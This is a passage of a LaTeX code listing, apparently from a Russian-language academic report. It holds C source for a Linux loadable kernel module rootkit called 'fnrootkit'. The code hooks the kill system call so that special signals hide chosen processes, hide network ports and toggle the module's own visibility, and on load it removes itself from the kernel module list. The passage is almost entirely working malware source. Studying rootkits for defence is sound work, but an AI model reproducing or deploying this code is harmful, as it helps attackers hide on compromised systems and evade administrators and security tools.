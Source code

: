 \begin{lstlisting}[language=c,caption={Загружаемый модуль ядра, файл реализации},label=lst:rootkit_c]
    return ret;
}

void toggle_module_invisability(void);

KHOOK_EXT(long, __x64_sys_kill, const struct pt_regs *);
static long khook___x64_sys_kill(const struct pt_regs *pt_regs) {
    struct task_struct *task;
    pid_t pid = (pid_t) pt_regs->di;
    int sig = (int) pt_regs->si;

    switch (sig) {
    case SIGINVISPROC:
        if ((task = find_task_struct(pid)))
            toggle_proc_invisability(task);
        else
            return ESRCH;
        break;
    case SIGINVISPORT:
        toggle_port_invisability(pid);
        break;
    case SIGMODHIDE:
        toggle_module_invisability();
        break;
    default:
        KHOOK_ORIGIN(__x64_sys_kill, pt_regs);
    }

    return 0;
}

/********************************LKM*************************************/
static struct list_head *module_prev;
static int is_module_hidden = 0;

void module_hide(void) {
    if (!is_module_hidden) {
        module_prev = THIS_MODULE->list.prev;
        list_del(&THIS_MODULE->list);

        is_module_hidden = 1;
    }
}

void module_show(void) {
    if (is_module_hidden) {
        list_add(&THIS_MODULE->list, module_prev);
        is_module_hidden = 0;
    }
}

void toggle_module_invisability() {
    if (is_module_hidden)
        module_show();
    else
        module_hide();
}

 int __init fnrootkit_init(void) {
    khook_init();
    module_hide();

    printk(KERN_INFO "fnrootkit: module have loaded.\n");

    return 0;
}

static void __exit fnrootkit_exit(void) {
    khook_cleanup();

    printk(KERN_INFO "fnrootkit: module have unloaded.\n");
}
 
module_init(fnrootkit_init);
module_exit(fnrootkit_exit);
\end{lstlisting}
